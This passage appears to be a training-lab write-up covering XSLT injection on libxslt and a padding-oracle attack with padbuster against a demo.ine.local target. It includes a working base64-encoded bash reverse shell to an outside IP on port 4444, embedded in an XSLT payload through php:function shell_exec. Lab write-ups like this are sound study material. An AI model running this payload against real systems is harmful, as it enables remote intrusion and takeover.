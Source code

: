 The script tells us that it is libxslt v1.0. We can look up how to achieve RCE from that and we compile this script. NOTE: due to the use of slashes and apexes, we are better of encoding the whole payload in base64 and decoding on the fly, so:
```bash
echo "/bin/bash -c 'bash -i>& /dev/tcp/192.126.227.2/4444 0>&1'" | base64 -w0
```
And the final xslt:
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('shell_exec','echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pPiYgL2Rldi90Y3AvMTkyLjEyNi4yMjcuMi80NDQ0IDA+JjEnCg== | base64 -d | bash')" />
</xsl:template>
</xsl:stylesheet>
```
This way we get the shell and we can get the flags! (fdf9c7da429441eaa1620eceafc34d9f)
# Crypto Attacks
## Padding oracle
Browsing to http://demo.ine.local/encrypt?plain=ApplicationUsername%3duser%26Password%3dsesame we can get the encrypted version of the username and password, getting as output:
```bash
crypted: 6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80
```
Going to the http://demo.ine.local/echo?cipher=6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80 endpoint we can decrypt the content. 
We can confirm the presence of the padding oracle by changing the payload and submitting it to the echo endpoint as follows: http://demo.ine.local/echo?cipher=gg664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80.
This will trigger a "non hex value" error.
Sending: http://demo.ine.local/echo?cipher=g will trigger an "odd-length string" error.
Sending: http://demo.ine.local/echo?cipher=6b will work triggering a simple decryption error.
These errors may suggest that:
- The string consists of hexadecimal characters (0-0xff)
- The string has to be aligned to two characters
- The string is being decrypted somehow

We can now try a padding oracle attack with padbuster.
We run it as:
```bash
padbuster "http://demo.ine.local/echo?cipher=6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80" "6b664ef0359fe233e021ad36b12d8e32b8f1335522753d45174435c16b52dc2e5bbd4363b9d91d4c9100beae6ce34e80" 16 -encoding 1
```
The following are the options provided to the PadBuster tool:
- The target URL containing the ciphertext
- The ciphertext itself
- Block size (128 bits = 16 bytes)
- Encoding type 1 = lowercase hex (which was confirmed by experimenting with the endpoint in the previous step)
